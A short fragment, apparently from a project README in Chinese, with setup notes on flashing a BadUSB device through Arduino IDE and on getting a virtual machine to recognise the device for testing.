

<br>	

# 注意事项

- 在进行烧录操作时要关闭虚拟机(因为badusb设备会被虚拟机优先识别判断), 不然Arduino IDE无法进行烧录
- 若要在虚拟机测试badusb的功能, 需要在其首选项设置优先识别badusb设备


​	

